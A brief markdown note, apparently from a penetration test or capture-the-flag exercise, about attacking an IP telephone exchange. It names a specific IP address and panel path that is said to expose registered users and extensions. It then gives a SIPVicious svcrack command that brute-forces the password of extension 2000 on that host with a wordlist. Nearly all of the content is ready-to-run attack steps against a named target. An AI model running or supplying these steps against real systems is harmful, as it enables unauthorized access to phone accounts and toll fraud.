 IPBX
====


# You can browse to the following URL to get all users registered with an extension
178.33.47.167/panel/


# Sipvicious is a great tool to attack VoIP
# You can bruteforce a special extension/account
./svcrack.py -u 2000  178.33.47.167 -d ./notre_dictionnaire -vv

















